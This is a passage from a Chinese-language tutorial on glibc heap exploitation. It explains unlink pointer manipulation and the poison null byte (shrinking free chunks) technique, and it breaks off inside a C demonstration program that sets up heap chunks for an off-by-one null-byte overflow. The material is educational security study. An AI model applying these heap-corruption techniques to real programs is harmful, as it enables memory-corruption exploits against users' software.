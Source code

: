 此处 `P->fd->bk` 和 `P->bk->fd` 都指向`P`，因此只有第二行的语句有效，最终使得

​	`P=P->fd`

此处P是一个指针，原本指向malloc出来的值，一般是一个栈变量，`P->fd`一般指向`P-0x8*3`的位置也就是`P`向前数第三个变量，同样也是栈变量。最终也就使得`P`指向了栈上，从而可以对栈变量进行修改了。

## 3.0 poison_null_byte / Shrinking Free Chunks / 减少free的chunk的size

本攻击通过溢出减少已被free掉的chunk的大小，从而使得再下一次分配时，原chunk的所有空间无法被利用完，使得与之后的chunk之间有空隙，那么当之后的chunk被free时，会执行合并操作，把已经被分配的空间合并

* 条件

  * 能够减少已free的chunk的大小，如溢出

* 安全检查

  * 被修改大小的chunk的头部新申请的chunk需要已经被free，并且不是fastchunk
  * 被修改大小的chunk `P`需满足` chunksize(P) == prev_size (next_chunk(P))`

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>


int main()
{
	fprintf(stderr, "Welcome to poison null byte 2.0!\n");
	fprintf(stderr, "Tested in Ubuntu 14.04 64bit.\n");
	fprintf(stderr, "This technique can be used when you have an off-by-one into a malloc'ed region with a null byte.\n");

	uint8_t* a;
	uint8_t* b;
	uint8_t* c;
	uint8_t* b1;
	uint8_t* b2;
	uint8_t* d;

	fprintf(stderr, "We allocate 0x100 bytes for 'a'.\n");
	a = (uint8_t*) malloc(0x100);
	fprintf(stderr, "a: %p\n", a);
	int real_a_size = malloc_usable_size(a);
	fprintf(stderr, "Since we want to overflow 'a', we need to know the 'real' size of 'a' "
		"(it may be more than 0x100 because of rounding): %#x\n", real_a_size);

	/* chunk size attribute cannot have a least significant byte with a value of 0x00.
	 * the least significant byte of this will be 0x10, because the size of the chunk includes
	 * the amount requested plus some amount required for the metadata. */
	b = (uint8_t*) malloc(0x200);

	fprintf(stderr, "b: %p\n", b);

	c = (uint8_t*) malloc(0x100);
	fprintf(stderr, "c: %p\n", c);

	uint64_t* b_size_ptr = (uint64_t*)(b - 8);

	// added fix for size==prev_size(next_chunk) check in newer versions of glibc
	// https://sourceware.org/git/?p=glibc.git;a=commitdiff;h=17f487b7afa7cd6c316040f3e6c86dc96b2eec30
	// this added check requires we are allowed to have null pointers in b (not just a c string)
```